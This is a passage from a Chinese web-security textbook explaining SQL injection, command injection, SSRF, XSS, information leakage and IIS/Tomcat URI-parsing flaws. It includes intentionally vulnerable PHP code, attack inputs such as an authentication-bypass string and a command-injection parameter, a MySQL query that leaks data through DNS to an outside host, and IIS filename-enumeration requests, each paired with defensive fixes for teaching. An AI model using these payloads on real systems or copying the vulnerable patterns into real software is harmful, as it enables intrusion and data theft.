上面的这个例子已经初步展示了 `SQL 注入`的强大威力：越权读取任意数据。同时，和其他注入类漏洞的原理一致的是：数据库把用户输入的数据全部或部分的当作 SQL 指令执行了。之所以会出现数据库错误的把用户输入的数据当作 SQL 指令去执行，从代码层面来看正是因为涉及到 SQL 指令构建和执行的语句中存在可以被用户输入控制的变量。下面我们看一个 PHP 操作数据库的代码片段：

```php
<?php
$dsn = "mysql:host=db;dbname=demo;charset=utf8mb4";
$options = [
PDO::ATTR_EMULATE_PREPARES   => false, // 启用真正的 SQL 预编译执行
PDO::ATTR_ERRMODE            => PDO::ERRMODE_EXCEPTION, 
PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC, 
];
try {
    $pdo = new PDO($dsn, "db_user", "db_pass", $options);
    // 省略请求参数解析代码
    // 以下代码存在 SQL 注入点
    $sql = "SELECT id, name FROM users where name='". $name . "' and password='" . $password . "'"; 
    $user = $pdo->query($sql)->fetchAll();
    // 省略后续用户信息处理代码
} catch (Exception $e) {
    exit('Something weird happened'); 
}
```

假如数据库中存在用户名 `admin`，如果攻击者构造的用户名为 **admin' or '1'='1**，即使攻击者不知道 `admin` 用户的密码，上述 `$sql` 变量经过**字符串拼接**操作之后将变为：SELECT id, name FROM users where name='**admin' or '1='1**' and password='whatever'，从而实现了在不知道用户密码的情况下绕过了系统的身份认证。

历经多年发展，SQL 注入的众多经验总结形成了诸如 [sqlmap](http://sqlmap.org/) 这样的全自动化漏洞利用工具，通过研究 sqlmap 的源代码或通过自己搭建靶场环境抓包分析 sqlmap 产生的流量数据的方式可以很好的学习 SQL 注入的各种方法和技巧。但万变不离其宗：找到构成 SQL 语句的外部输入可控变量并篡改为可执行的 SQL 指令，这就是 SQL 注入成功的关键。由于 SQL 注入实际攻击的是数据库，所以在实际手工测试 SQL 注入时，手边准备好目标数据库的 SQL 指令手册并搭建相应版本的数据库并建立起一些数据表供测试 SQL 注入代码的有效性是一种常见的工作方式。

在代码级别修复 SQL 注入漏洞已经非常成熟，以上述 PHP 代码为例，只需要将 SQL 语句拼接代码修改为采用`预编译方式`即可彻底杜绝 SQL 注入。其他编程语言如 Java 和 Python，也普遍提供`预编译方式`的 SQL 语句执行支持。

```php
<?php
// 省略未修改代码
    $sql = "SELECT id, name FROM users where name=? and password=?";
    $stmt = $pdo->prepare($sql);
    $stmt->execute([$name, $password]);
    $user = $stmt->fetchAll();
```

对于 PHP 来说，从 [PHP 5.5.0 起 mysql_ 系列函数均已经被废弃，并且从 PHP 7.0.0 开始被移除](https://secure.php.net/manual/zh/intro.mysql.php)，官方建议可以使用 [mysqli](https://php.net/manual/zh/book.mysqli.php) 或者 [PDO_MySQL](https://php.net/manual/zh/ref.pdo-mysql.php) 扩展代替。而上述例子中，虽然使用了安全的数据库扩展，但只要依然在使用 SQL 字符串拼接方式来构建 SQL 语句执行就依然有可能留下 SQL 注入漏洞。

### 7.4.2 命令注入

命令注入有时也称为代码注入，两者在大部分场景下具有相同的含义。SQL 注入本身就是一种特殊的 `命令注入`：针对 SQL 服务器的命令注入。本小节要介绍的命令注入根据命令或代码执行环境的区别，主要分为：脚本代码注入、操作系统命令注入和表达式注入。

大部分脚本语言都存在类似 `eval()` 的执行脚本语言自身代码的函数或方法。以下是一段存在 PHP 代码注入漏洞的 PHP 代码：

```php
<?php
$myvar = "varname";
$x = $_GET['arg'];
$cmd = "\$myvar = " . $x .";";
eval($cmd);
```

攻击者可以通过构造请求参数 `arg=1; phpinfo()` 完成 PHP 代码注入。`文件包含` 漏洞从机理上来说也可以属于这里的命令注入，攻击数据都是被脚本引擎解释执行。

当攻击数据是被当作操作系统命令执行时，我们称之为操作系统命令注入漏洞。以 PHP 为例，可以通过调用 [`system()`](http://php.net/manual/zh/function.system.php) 、[passthru](http://php.net/manual/zh/function.passthru.php) 或 [exec](http://php.net/manual/zh/function.exec.php) 等函数来将用户传入的数据当作外部程序（操作系统命令）执行。以下是一段存在操作系统命令注入漏洞的 PHP 代码：

```php
<?php
$cmd = "cat welcome/users/" . $_GET['id'] . ".html";
$welcome_msg = passthru($cmd, $return_var);
if($return_var === 0) {
    echo $welcome_msg;
} else {
    echo "Welcome, Guest!";
}
```

攻击者可以通过构造请求参数 `1.html; id; echo` 完成操作系统命令注入。从代码级别修复上述操作系统命令注入漏洞的方法是使用 `escapeshellarg()` 过滤 `$_GET['id']` 的值，该函数将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号，这样以确保能够直接将一个字符串传入 shell 函数，并且还是确保安全的。shell 函数包含 exec(), system()，执行运算符（反引号 **\**） 。需要注意的是，PHP 中还有另一个类似的针对操作系统命令注入的过滤函数 [escapeshellcmd](http://php.net/manual/zh/function.escapeshellcmd.php) 。两个函数的区别是：`escapeshellcmd()` 被用在完整的命令字符串上，`escapeshellarg()` 对单个参数进行转义。但如果在代码中同时使用这 2 个过滤函数是否防御效果加倍呢？答案恰恰相反，这 2 个函数不能同时使用。[PHPMailer 小于 5.2.18 版本的 RCE 漏洞，官方在补丁中使用了 `escapeshellarg()` 来修复漏洞](https://paper.seebug.org/164/) 。但在 PHPMailer 的 `mail.c` 的函数内部又使用了一遍 `escapeshellcmd()` ，导致输入数据中经过 `escapeshellarg()` 处理后单引号先被 **\** 转义一次，再用单引号对输入参数的左右两部分进行了包围处理。后来遇到 `escapeshellcmd()` 处理时，先前被添加的 **\** 又被转义了一次，变成了 **\\**，并且命令中所有的单引号又被转义了一次，最终导致输入参数又变回了一个可以被执行的操作系统命令。

公开资料可以找到的最早讨论表达式注入漏洞的文章是 2011 年 Stefano 和 Arshan 联合发表的[Expression Language Injection](https://www.mindedsecurity.com/fileshare/ExpressionLanguageInjection.pdf) ，该漏洞来自于他们发现的 Spring MVC 框架中 Spring MVC JSP 标签可以执行 Java 代码，涉及到的表达式语言引擎包括：Struts 2 的 OGNL，Spring 的 SPEL 等。例如，Apache Struts 2 的[S2-014](https://cwiki.apache.org/confluence/display/WW/S2-014) 就是一个典型的表达式注入漏洞，官方漏洞危害评级为：高危。Java 程序框架是表达式注入类漏洞的高发区，除了 Apache Struts 2，另一个知名的 Java 企业级 Web 开发流行框架 Spring 在历史上同样爆出过表达式注入漏洞，例如 [CVE-2016-4977](https://nvd.nist.gov/vuln/detail/CVE-2016-4977)、[CVE-2017-4971](https://nvd.nist.gov/vuln/detail/CVE-2017-4971)、[CVE-2018-1270](https://nvd.nist.gov/vuln/detail/CVE-2018-1270)和[CVE-2018-1273](https://nvd.nist.gov/vuln/detail/CVE-2018-1273)。截止目前，表达式注入漏洞均发生在 Java 程序之中，未来其他的 Web 开发技术也有可能出现这种类似的表达式存在，有鉴于已有的这些表达式漏洞的危害巨大。届时，表达式注入漏洞可能将成为 Web 应用程序漏洞挖掘的一个重要方向。

小结一下命令注入漏洞的防御，和前述`输入相关的通用漏洞`一样，数据输入过滤是防御命令注入漏洞的基本方法。但区别于其他输入数据过滤方法，命令注入漏洞之所以会存在根本上还是和系统架构和功能的`动态性`需求密切相关。尤其在插件技术广为应用的情况下，插件技术本身就是一种`代码`和`命令`的动态注入执行。既要保留系统的这种`动态命令`执行能力，又要杜绝执行恶意指令，传统的白名单技术往往难以兼顾两者。所以，命令注入漏洞的防御在特定需求条件下，可能更加需要`纵深防御`机制，而不仅仅是在代码级别的安全加固保障。

### 7.4.3 服务端请求伪造

服务端请求伪造（Server Side Request Foregery, SSRF）是一种由攻击者构造形成由服务器端发起请求的一个漏洞。从字面意义上来看，SSRF 和 CSRF 有很高的相似度，虽然 CSRF 里的 C 不是指的英文`客户端（Client）`的首字母。但从漏洞触发原理上来看，其实 CSRF 和 SSRF 的区别恰恰就在前者确实是攻击者构造形成由客户端发起请求的一个漏洞，而后者是从服务器端发起的强制请求。前述 `服务端脚本相关漏洞` 中提到的 `文件包含`、`XXE 注入`、`反序列化漏洞`等均可以用来构造和触发 SSRF。例如，在 `XXE 注入` 中可以利用 `file://` 协议读取服务器上的本地文件，这就相当于由服务器端发起一个读取本地文件的请求。`文件包含` 更不用说，既可以读取本地文件也可以读取远程文件。对于 SSRF 来说，最常见的远程文件读取目标是通过互联网无法直接访问到的内网目标资源。`反序列化漏洞` 由于往往意味着可以执行代码，所以，在服务器上执行代码读取本地或内网文件均是可行的。因此，从漏洞触发机理上来说，SSRF 并不完全算是一个独立的漏洞类型。严格来说，SSRF 是一种`漏洞利用`类型。前述的这几种服务器端脚本相关漏洞，在满足`服务器能够对外发起网络请求的地方`就可能构造 SSRF 的漏洞利用方式。

在`输入相关的通用漏洞`中，我们在介绍`未验证的用户输入`漏洞时所举的第一个例子实际上就是一个 SSRF 漏洞利用。以下用一段存在 SSRF 漏洞的 PHP 代码为例，展示一下 SSRF 漏洞的利用效果。

```php
<?php
function curl($url){
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    curl_exec($ch);
    curl_close($ch);
}
$url = $_GET['url'];
curl($url);
```

由于 curl 支持的协议类型非常广泛（根据官网描述可知有不下 20 种网络协议均可以通过 curl 访问读取），因此上述漏洞代码可以访问诸如：服务器上本地文件（利用 ``file://``）和远程 Web 服务器上的文件（利用 ``http://`` 和 ``https://``）等等。

除了文件读取时容易造成 SSRF 漏洞（例如文档、图片、音视频处理等在接受文件路径输入参数时很可能同时支持本地和网络协议 URL），数据库的一些内置功能（加载网络地址时会自动对其中包含的域名字段进行 DNS 查询）也会被利用在 SQL 注入的过程中获取数据。以 [sqlmap](http://sqlmap.org/) 为例，在其众多数据获取技巧中提供了一个命令行参数 `--dns-domain` 就是实现了利用 SQL 数据库在执行一些特定函数时会对其中传入的参数当作域名进行查询这个特性的 `基于 DNS 的带外数据回传`。攻击者通过一系列精心构造的域名查询记录就可以拼接还原出从数据库表中读取的数据。攻击者除了可以自己搭建 DNS 服务器来捕获这些 DNS 查询数据之外，还可以使用一些开放的 DNS 查询监控服务，例如 [dnsbin.zhack.ca](http://dnsbin.zhack.ca/) 。以 MySQL 为例，以下是一个典型的使用 `基于 DNS 的带外数据回传` 技术的 SQL 注入代码片段在数据库中得到执行时的完整形态。

```sql
select load_file(concat('\\\\', version(), '.6a7087aa4e3b2c743ed1.d.zhack.ca\\1.txt'));
```

成功执行上述 SQL 代码将会在 dnsbin 的 DNS 解析服务器上留下一条 DNS 查询记录，如下图所示：



需要注意的是，MySQL 的全局配置参数 [secure_file_priv](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv) 的设定会影响到 `load_file()` 是否解析参数中包含的域名。在从 MySQL 官网下载的 5.7.16 之前独立安装包版本或 5.7.5 之前所有版本的 `secure_file_priv` 缺省设置均为空，则上述攻击代码能得手。但如果设置为 NULL 则会禁用文件读取操作，如果设置为指定目录，则只能从指定目录读取文件。

小结一下，SSRF 漏洞既可以发生在服务器端脚本所在的主机，也可能发生在后台服务（如上文中举例的数据库）主机。SSRF 漏洞一旦被利用可以被用来进行内网服务发现和扫描、作为跳板攻击内网或本地应用程序和 Web 应用等，甚至是任意读取 SSRF 漏洞触发所在主机上的本地文件。防御 SSRF 漏洞的基本方法除了输入相关的通用漏洞防御方法之外，对于重要的后台服务启用身份认证和二次鉴权可以有效的缓解 SSRF 的漏洞利用效果。

## 7.5 输出相关漏洞

### 7.5.1 跨站点脚本

跨站点脚本（Cross-Site Scripting，XSS）的简写没有采用 `CSS` 是为了避免和另一个术语 `层叠样式表（Cascading Style Sheet）` 产生歧义。公开资料最早提及 XSS 威胁的来自于 1996 年 6 月 30 日 `comp.sys.acorn.misc` 新闻组的一条消息，如下图所示：



在这则简短的留言中，我们留意到早期恶意 `JavaScript` 代码能够实现的功能：盗取用户浏览历史记录、盗取用户邮箱地址、下载恶意文件并诱骗用户打开运行和遍历磁盘上的文件。实际上在此之前已有相关漏洞报告历史，1995 年 9 月 18 日，Netscape Navigator 2.0 发布。一个月后 Netscape 为其下一个公开测试版浏览器上线了“漏洞悬赏（Bugs Bounty）”计划并在一周后收到了第一个漏洞报告：恶意 LiveScript（JavaScript 语言的前身） 可以用于盗取用户在访问指定恶意网页之前的所有的浏览历史记录。这些客户端脚本漏洞相比较于同时期的二进制漏洞利用方式（例如：缓冲区溢出漏洞）动辄需要数日、数周甚至是数月来发现和调试漏洞利用程序，此时客户端脚本漏洞的发现和概念验证利用不仅工作量小的多、容易的多，而且稍加完善漏洞利用方式就会造成巨大的破坏力。随着 Web 应用的成熟和普及，越来越多的安全研究者开始重视客户端脚本漏洞的研究。

从上述最早的这个客户端脚本漏洞描述信息来看，JavaScript 完全具备漏洞利用的能力。在浏览器技术的早期，这些利用 JavaScript 来展示的攻击案例都是跨域的，而时至今日能够实现跨域方式的脚本攻击依然是客户端脚本攻击的终极目标，所以「跨站脚本」这种说法就慢慢的沿用了下来。事实上，今时今日我们再谈论 XSS 时，有可能并没有用到 JavaScript 脚本技术，甚至也没有能实现跨域数据窃取和传输，但我们依然会称这一类客户端的脚本漏洞为「跨站点脚本」。

XSS 长期以来都被列为客户端 Web 安全的头号漏洞，因为很多 XSS 破坏力强大但挖掘难度相比于二进制漏洞挖掘低很多，且产生的场景复杂，很难一次性解决。现在业内达成的共识是：针对各种不同场景产生的 XSS，需要有针对性区别对待。

下面我们通过一段包含 XSS 漏洞的 PHP 代码来说明为什么我们把 XSS 漏洞归类到了「输出相关漏洞」。

```php
<?php
$msg = $_GET['msg'];
// 用户提交的消息被作为关键字提交到后台进行信息检索
// 页面同时把用户输入的搜索关键词展示出来
echo "<div>$msg</div>";
```

上述代码逻辑非常简单，当用户提交“检索消息”给网站后，网站展示搜索结果时「原样输出」用户的搜索关键词。如果用户搜索内容是 `` 呢？最后 PHP 输出给浏览器的内容就将变为：`<div></div>`，这段 HTML 代码被浏览器解释执行的结果就是执行了其中包含的 JavaScript 代码。这就是一个最基本的 XSS 漏洞利用（概念验证，证明漏洞的存在性），效果如下图所示：



上面的这个 XSS 效果对应的 XSS 类型被称为 `“反射型”XSS`。反射型 XSS 只是简单地把用户输入的数据“反射”给浏览器。也就是说，攻击者往往需要诱骗用户“点击”一个恶意链接，链接中包含 XSS 代码，才能攻击成功。反射型 XSS 也被称为“非持久型 XSS”。

除了“反射型” XSS 之外，另外 2 种常见的基本 XSS 类型分别是：`存储型 XSS` 和 `基于文档对象模型的 XSS（DOM Based XSS）`。

`存储型 XSS` 会把用户输入的数据“存储”在服务器或客户端（例如：Cookie、LocalStorage、Web SQL等）。其中，“存储”在服务器上的 XSS 代码具有很强的利用稳定性。一个典型场景就是攻击者写下一篇包含 XSS 代码的博客文章，文章发表后，所有访问该博客文章的用户，都会在他们的浏览器中执行 XSS 中包含的恶意脚本代码。基于客户端的存储型 XSS 是伴随着 HTML 5 技术的普及而发展起来的，HTML5 提供了两种新的本地存储方案，sessionStorage 和 localStorage，统称 WebStorage。相比较于主流浏览器的 Cookie 存储数据上限容量为 4 KB，利用 localStorage 可以存储高达 5 MB 的数据。将 XSS 持久化存储在客户端虽然不及存储在服务器上稳定性高（用户一旦清空浏览器本地缓存就会删除 localStorage 和 cookie 等客户端存储中的所有数据），但和服务端存储型 XSS 一样：只要用户再次打开存在 XSS 漏洞的网站，攻击者预留在这个网站的 XSS 漏洞都可以被自动载入执行。因此，`存储型 XSS` 也被称为 `持久型 XSS`。

`DOM Based XSS` 在发现初期从效果来说也是属于“反射型” XSS。之所以自成一类，是因为 DOM Based XSS 的形成原因比较特别，该漏洞命名源自其最早发现者 [Amit Klein](http://www.webappsec.org/projects/articles/071105.shtml) 在 2005 年的一篇技术报告，业界自此也就接受了这样一个更精细化的分类方法。从漏洞触发原理上来看，DOM Based XSS 的整个漏洞利用过程可以完全不依赖于服务器端脚本的「输出」操作，通过修改页面的 DOM 节点形成 XSS。随着`客户端存储型 XSS`的出现，大家发现利用客户端存储技术也可以实现 `DOM Based XSS`。不变的是依然不需要依赖于服务端脚本「输出」操作和都会篡改 DOM，变化的只是 XSS 的来源不再是反射方式，也可以是持久化存储方式了。

下面的代码把前一个包含反射型 XSS 漏洞的 PHP 代码稍加改动，变形为 DOM Based XSS 漏洞：

```php
<?php
$msg = $_GET["msg"];
?>
<input id="dom-xss-src" type="text" value="<?php echo $msg;?>" />
<div id="dom-xss-sink"></div>
<script type="text/javascript">
var src = document.getElementById("dom-xss-src");
var sink = document.getElementById("dom-xss-sink");
sink.innerHTML = src.value;
</script>
```

从上述代码相比较于反射型 XSS 代码的改动可以看出，XSS 代码从原先的：`直接从客户端获取后「原样输出」导致 JavaScript 代码执行`，变为了：`直接从客户端获取到的用户提交查询参数先输入到了一个 <input> 标签内，然后经由一段 JavaScript 代码输出到一个 <div> 的过程中触发了 JavaScript 代码执行`。攻击效果如下图所示：



如果仅仅是看到这里，细心的读者可能会发现：第一次展示“反射型”XSS时我们使用的浏览器是 `Mozilla Firefox`，而第二次展示“DOM Based XSS”时我们使用的浏览器变成了 `Google Chrome`。那如果用 `Google Chrome` 浏览器来测试第一个“反射型” XSS 代码会出现什么结果呢？如下图所示：



`Google Chrome` 浏览器成功拦截了我们的第一次“反射型”XSS攻击，而对于完全相同的 XSS 代码在`DOM Based XSS`时`Google Chrome`却没有拦截任由攻击成功了。`XSS Auditor` 是从 [2010 年 Chrome 4](https://www.chromium.org/developers/design-documents/xss-auditor) 开始引入的对抗 XSS 技术，其他现代浏览器如微软从 2015 年的 [IE 8](http://msdn.microsoft.com/en-us/library/dd565647%28VS.85%29.aspx) 开始引入 `XSS Filter` 技术对抗 XSS。[Mozilla Firefox](X-XSS-Protection: 1; mode=block) 则对服务器返回 HTTP 响应头 `X-XSS-Protection: 1; mode=block` 时拦截页面中可能的 XSS。因此，XSS 的代码执行虽然发生在浏览器上，但不同浏览器由于兼容性、安全过滤机制的差异，同一个 XSS 很难同时攻击影响到所有版本的浏览器。

到此为止，我们探讨的 XSS 都是基于 JavaScript 的。事实上，脱离 JavaScript，仅仅使用 HTML 和 CSS 也是可以实现 XSS 的。以本小节第一个反射型 XSS 为例，假设攻击者修改 XSS 代码为用 HTML 「绘制」一个钓鱼登录表单，当受害者打开这个恶意链接之后如果信以为真，填写提交了自己的用户名和密码。那么，攻击者就在不使用 JavaScript 的情况下，完成了一次 XSS 钓鱼。攻击效果如下图所示：



当然，在绝大多数情况下，XSS 中都会包含 JavaScript 代码，以完成更高级的漏洞利用效果。从攻击者角度看 XSS，发现和验证 XSS 的存在性虽然容易，但只是第一步。XSS 的利用难就难在完成有实际攻击效果的利用开发和绕过各种安全过滤措施（例如现代浏览器普遍内置的 XSS 拦截器）完成漏洞利用。在 XSS 漏洞利用方面目前最常见的就是使用诸如 [BeEF, The Browser Exploitation Framework](https://beefproject.com/) 这样的漏洞利用框架，一旦发现了 XSS 漏洞点，剩下的复杂漏洞利用实现就会基于 `BeEF` 这样的攻击框架来完成。编写 `BeEF` 这样的 XSS 攻击框架需要具备丰富的 Web 富客户端开发技术，精通 JavaScript。本书限于篇幅，对于 XSS 的高级利用方法就不再展开，感兴趣的读者可以去研究 `BeEF` 的源代码。

虽然 XSS 不像 SQL 注入防御那样可以使用`预编译 SQL`这样的一劳永逸方式，但在代码级别的基本防御方法是成熟的：

* 服务端脚本在「输出」数据时，要进行「转义」操作；
* 「输出」数据的「转义」要按内容是 HTML 还是 JavaScript 进行区别操作。以 PHP 为例，对于 HTML 的输出转义应使用 [`htmlspecialchar()`](http://php.net/manual/zh/function.htmlspecialchars.php) 函数（且大多数情况下应在第二个参数设置 `ENT_QUOTES` 来转义单引号）。对于 JavaScript 的输出转义，特别是涉及到 JavaScript 变量的过滤仅仅使用 `htmlspecialchars()` 是不够的，很多 RESTful 接口应用还会使用 `json_encode()` 去处理服务端脚本输出给客户端的 JavaScript 变量值。另外，在客户端脚本中尽可能使用 `innerText()` 之类的函数来过滤服务端脚本对客户端变量的赋值。
* 联合现代浏览器的客户端安全机制，共同对抗 XSS。例如，在服务端输出 HTML 时，加上 [`Content Security Policy`](https://w3c.github.io/webappsec-csp/) 的 HTTP 响应头（低版本浏览器可能不支持，但某些低版本浏览器支持一些自定义 HTTP 响应头 [X-XSS-Protection](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection)）来限制加载执行不可信脚本。在设置 Cookie 时，加上 HttpOnly 参数避免关键 Cookie 字段被脚本访问。

由于 XSS 漏洞的实际触发位置是在浏览器，因此即使按照上述服务端脚本的代码安全最佳实践去实现「净化」输出，但如果 XSS 漏洞再利用一些浏览器漏洞（特别是一些字符集编码漏洞）进行配合，那么依然难免 XSS 漏洞。不过好在这种情况发生的概率要远远低于由于服务端脚本没有「净化」输出导致的 XSS，所以，使用正确的「净化」输出方案是在代码级别防御 XSS 的最重要手段。

### 7.5.2 信息泄漏

服务端脚本在输出数据发送给客户端之前进行校验能够避免用户收到他们不应该看到的信息，例如应用程序内部的异常细节，这些信息（例如服务端使用的脚本运行时版本、使用到的第三方组件信息、脚本的物理路径和内部 IP 地址信息等）有助于发起其他的攻击。

输出信息过滤不当导致的另一个问题是隐私泄漏，如信用卡号、手机号、身份证号等，在发送给前端之前用星号代替。随着近几年全球范围内各个国家、企业和民众对个人隐私信息的重视程度越来越高，一切能够用于标识和关联公民身份和网络账号信息的数据除了在服务器上存储时的加密和访问控制之外，在网页和客户端上呈现相关隐私数据时，使用星号遮蔽显示隐私信息的位数越来越多。例如，中国的 18 位公民身份证号码从最早的全部明文显示在软件界面上，发展经历了遮蔽4位数字、8位数字，直到只显示首末 2 位数字（如支付宝）。非必需展示和发送给客户端的数据，应避免在服务端脚本直接输出。

## 7.6 平台相关漏洞

### 7.6.1 Web 服务器 URI 解析类漏洞

在 `文件上传` 漏洞一节我们介绍过了 [CVE-2013-4547](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2013-4547) 这个 Nginx 文件名解析逻辑漏洞，类似的 URI 解析漏洞在历史上曾经以不同形式出现在了许多知名 Web 服务器的历史版本之中。下面我们按照 URI 解析类漏洞造成的影响效果进行分类介绍。

#### 7.6.1.1 目录遍历或信息泄漏

2012 年 6 月知名 Web 安全专家 Soroush Dalili 公布了微软 IIS 服务器在[处理 `~` 字符时的缺陷](https://soroush.secproject.com/blog/2012/06/microsoft-iis-tilde-character-vulnerabilityfeature-short-filefolder-name-disclosure/)导致服务器上任意文件可被枚举探测存在性。而这个漏洞存在的根本原因是微软在 DOS 时代设计的针对长文件名的自动缩短 `8.3` 命名规则。例如，文件名 `exampletest.txt` 按照 `8.3` 命名规则会被自动转换为 `EXAMPL~1.txt`。如果此时该目录下存在另一个文件名 `examplefile.txt`，则按照 `8.3` 命名规则该文件会被自动转换为 `EXAMPL~2.TXT`。注意，`8.3` 规则命名的文件和原文件名是等价的，操作系统会负责解析加载 `8.3` 规则命名的正确文件。攻击者为了探测服务器上是否存在一个名为 `exampletest.txt` 的文件，可以采用如下步骤发送 HTTP GET 请求进行枚举探测：

```c
http:/example.com/*~1*/.aspx   
// 如果服务器返回状态码 404 说明服务器上存在不止一个 8.3 命名规则的文件

http:/example.com/e*~1*/.aspx  
// 如果服务器返回状态码 404 说明服务器上存在不止一个字母 e 开头的文件

http:/example.com/eb*~1*/.aspx 
// 如果服务器返回状态码 400 说明服务器上不存在字母 eb 开头的文件

http:/example.com/ex*~1*/.aspx 
// 如果服务器返回状态码 404 说明服务器上存在不止一个字母 ex 开头的文件

// 如此不断增加探测字符串长度即可完成指定服务器文件的枚举探测
```

另一个经典的信息泄漏漏洞来自于 Tomcat 4.x 时代的 JSP 源代码泄漏漏洞。漏洞起因在于 Windows 平台上的文件名是不区分大小写的，但 Java 运行环境中对于文件名是区分大小写的。Tomcat 4.x 的默认 URI 解析映射规则是对于 `.jsp` 扩展名的文件请求会在服务器端解析执行 JSP 代码后再输出结果给浏览器。但如果客户端访问的文件扩展名是 `.JSP` 时，只要该文件路径在 Windows 系统上确实存在有效，但由于不是 Tomcat 的 JSP 引擎所期望的全小写字母，则会按照默认的文本文件处理，即直接读取文件内容并输出返回给浏览器，从而导致 JSP 源代码泄漏。如下第一张图故意访问一个不存在页面，借助服务器报错信息我们确认 Tomcat 版本是 4.1.27，存在该漏洞。第二张图展示的是我们访问 `.JSP` 扩展名时服务器直接泄漏了源代码。


